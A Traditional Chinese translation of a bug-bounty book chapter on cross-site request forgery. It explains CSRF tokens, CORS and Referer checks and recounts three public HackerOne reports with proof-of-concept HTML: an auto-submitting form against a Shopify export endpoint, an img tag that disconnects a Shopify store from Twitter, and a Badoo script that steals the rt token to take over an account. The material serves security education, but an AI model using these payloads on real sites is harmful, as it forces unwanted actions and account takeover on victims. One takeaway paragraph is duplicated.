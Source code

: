 ## **八、跨站請求偽造**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**

跨站請求偽造，或CSRF攻擊，在惡意網站，電子郵件，即使消息，應用以及其它，使用戶的Web瀏覽器執行其它站點上的一些操作，並且用戶已經授權或登錄了該站點時發生。通常會在用戶不知道操作已經執行的情況下發生。

CSRF 攻擊的影響取決於收到操作的站點。這裡是一個例子：
1. Bob 登錄了它的銀行帳戶，執行了一些操作，但是沒有登出。
2. Bob 檢查了它的郵箱，並點擊了一個陌生站點的鏈接。
3. 陌生站點向 Bob 銀行站點發送請求來進行轉賬，並傳遞第一步中，保存 Bob 銀行會話的 Cookie 信息。
Bob 的銀行站點收到了來自陌生（惡意）站點的請求，沒有使用 CSRF Token 的情況下處理了轉賬。

更有意思的是這個想法，也就是惡意網站的鏈接可以包含有效的 HTML，`<imgsrc="www.malicious_site.com">`，並且並不需要 Bob 點擊鏈接。如果 Bob 的設備（例如瀏覽器）渲染了這個圖片，它會向`malicious_site.com`發送請求，來完成 CSRF 攻擊。
<p>
現在，知道了 CSRF 的危險之後，它們可以以多種方式防範。最流行的方式大概是 CSRF Token，它必須隨著潛在的數據修改氣你去一起提交（例如 POST 請求）。這裡，Web 應用（例如 Bob 的銀行）會生成一個兩部分的 Token，一個 Bob 會收到，另一個由應用保管。
<p>
當 Bob 試圖提交轉賬請求時，它就需要提交 Token，銀行會驗證它這一邊的 Token。
<p>
現在，對於 CSRF 和 CSRF Token 來說，跨域資源共享似乎越來越普遍了。或者只是我注意到是這樣。
本質上，CORS 限制了資源，包括 JSON 響應，被外域訪問。換句話說，當 CORS 用於保護站點時，你就不能編寫 JavaScript 來呼叫目標應用，讀取響應或者進行另一個呼叫，除非目標站點允許。
<p>

似乎這非常令人混亂，使用 JavaScript，嘗試呼叫`HackerOne.com/activity.json`，讀取響應並進行二次呼叫。你也會在下面的例子 #3 看到它的重要性，以及潛在的原理。

<p>

最後，重要的是要記住（感謝 Jobert Abma 補充），並不是每個不帶有 CSRF Token 的請求都帶有 CSRF 問題。一些站點可能執行額外的檢查，例如比較 Referer 協議頭（雖然可能出錯，並且有一些繞過它的案例）。它是一個字段，標識了鏈接到被請求資源的頁面地址。換句話說，如果 POST 呼叫中的 Referer 並不來源於收到 HTTP 請求的相同站點，站點可能不允許該呼叫，因此能夠完成和驗證 CSRF Token 的相同操作。此外，不是每個站點在創建或者定義 Token 時都使用csrf術語。例如，在 Badoo 它使用rt參數，我們下面會討論。

>連結
>
>[查看OWASP 測試指南。](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)


---

## **示例**

## **1. Shopify 導出已安裝的用戶**

```
難度：低

URL：https://app.shopify.com/services/partners/api_clients/XXXX/export_installed_users
報告鏈接：https://hackerone.com/reports/96470
報告日期：2015.10.29
獎金：$500
描述：
```
Shopify 的 API 提供了一個終端，用於導出已安裝用戶的列表，通過上面給出的 URL。在站點能夠呼叫該終端，並且讀取信息的地方存在漏洞，因為 Shopify 在該呼叫中並沒有包含任何 CSRF Token 驗證。所以，下面的 HTML 程式碼可以用於代表任何未知受害者提交表單。

```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```
這裡，通過僅僅瀏覽站點，JavaScript 就會提交表單，它實際上包含 Shopify API 的 GET 請求，使用受害者的瀏覽器，並提供 Shopify 的 Cookie。

>重要結論
>
>擴展你的攻擊領域，並從站點轉向它的 API 終端。 API 提供了極大的漏洞可能性，所以最好牢記他，尤其是當你知道 API 
>可能開發完畢，或者在站點實際開發之後可用的時候。


---

## **2. Shopify Twitter 斷開連接**

```
難度：低

URL：https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect
報告鏈接：https://hackerone.com/reports/111216
報告日期：2016.1.17
獎金：$500
```
## **描述：**

Shopify 提供了 Twitter 的繼承，來允許店主轉推它們的商品。與之相似，也提供了功能來斷開推特帳戶和被連接商店的鏈接。
<p>
斷開 Twitter 帳戶的 URL 寫在了上面。當進行呼叫時，Shopify 不驗證 CSRf Token，這可能會允許惡意人員代表受害者進行 GET 呼叫，因此斷開受害者的商店與 Twitter 的連接。
<p>
在提供這份報告的時候，WeSecureApp 提供了下面的漏洞請求示例 - 要注意下面的img標籤的使用，它對漏洞 URL 進行呼叫：

```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```
由於瀏覽器進行 GET 請求來獲取給定 URL 處的圖片，並且不驗證任何 CSRF Token ，用戶的商店現在已斷開連接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```

>重要結論
>
>這種情況下，這個漏洞可以使用代理服務器來發現，例如 Burp 或者 Firefox 的 Tamper Data，來觀察發送給 Shopify 
>的請求，並主要到這個請求使用 GET 方式來執行。由於這是個破壞性操作，而 GET 請求不應該修改任何服務器上的數據，這應該是一些需要關注的事情。

---

## **3. Badoo 帳戶的完整控制**

```
難度：中

URL：https://badoo.com
報告鏈接：https://hackerone.com/reports/127703
報告日期：2016.4.1
獎金：$852
描述：
```
如果你仔細檢查 Badoo ，你會發現，它們通過包含 URL 參數`rt`來防禦 CSRF，它只有 5 個位數（至少在我寫這篇的時候）。雖然我在 Badoo 入駐 HackerOne 的時候就注意到了，我並沒有找到利用它的方式，但是`zombiehelp54`找到了。
<p>
發現`rt`參數以及其值之後，它也注意到了，參數一戶在所有 JSON 響應中都返回。不幸的是，這並沒有什麼幫助，因為 CORS 保護了 Badoo，攻擊者無法讀取這些響應，所以它繼續挖掘。
<p>

最終，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，這個文件可以由攻擊者任意讀取，而不需要受害者做什麼，除了瀏覽這個惡意頁面。這裡是它提供的程式碼。

```html
<html>
<head>
<title>Badoo account take over</title>
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript>
</head>
<body>
<script>
function getCSRFcode(str) {
    return str.split('=')[2];
}
    window.onload = function(){
    var csrf_code = getCSRFcode(url_stats);
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code;
    window.location = csrf_url;
};
</script>
```
本質上，當受害者加載此頁面時，它會呼叫Badoo 的腳本，為用戶獲取rt參數，之後代表受害者進行呼叫，這裡，它將受害者的帳戶鏈接到了攻擊者的，本上上完成了帳戶的控制。

>重要結論
>
>無風不起浪。這裡，攻擊者註意到了rt參數在不同位置返回，特別是 JSON 響應，
>因此，它正確猜測了，它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。重要結論
>
>無風不起浪。這裡，攻擊者註意到了rt參數在不同位置返回，特別是 JSON 響應，因此，它正確猜測了，
>它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。

## **總結**

<p>

CSRF 表示另一個攻擊向量，並且可能在受害者不知道，或者不主動執行操作的情況下發生。 CSRF 漏洞的發現可能需要一些機智，同樣，也需要測試任何東西的渴望。
<p>
	
通常，如果站點執行 POST 請求，Web 表單都統一由應用框架保護，例如 Rails，但是 API 又是另外一個事情。例如， Shopify 使用了 RoR 編寫，它對所有表單默認提供了 CSRF 保護（當然也可以關掉）。但是，顯而易見，這對於使用框架創建的 API 不一定成立。最後，一定要觀察任何通過 GET 請求執行的，修改服務器數據的呼叫（例如刪除操作）。